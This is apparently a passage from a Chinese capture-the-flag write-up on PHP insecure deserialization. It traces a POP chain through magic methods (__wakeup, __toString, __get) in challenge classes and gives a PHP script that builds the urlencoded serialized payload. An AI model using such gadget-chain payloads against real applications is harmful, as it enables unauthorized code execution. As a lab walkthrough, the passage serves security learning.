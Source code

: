 我们接着往上找，在re类中存在_toString()有个未定义的变量能触发\_get()，所街接着我们要触发\_toString()

触发时机：把对象被当做**字符串**调用

```
class re{
    public $chu0;
    public function __toString(){
        if(!isset($this->chu0)){
            return "I can not believes!";
        }
        $this->chu0->$nononono;
    }
}
```

我们在web类中发现_wakeup方法能打印变量，所以我们就能触发\_tostring了

pop链

```
<?php
highlight_file(__FILE__);
error_reporting(0);

class re{
    public $chu0;

}

class web {
    public $kw;
    public $dt;


}

class pwn {
    public $dusk;
    public $over;


}

class Misc {
    public $nothing;
    public $flag;


}

class Crypto {
    public function __wakeup() {
        echo "happy happy happy!";
    }


}
$ser =new web();
$ser->kw=new re();
$ser->kw->chu0=new pwn();
$ser->kw->chu0->over=new Misc();
echo urlencode(serialize($ser));
?>
```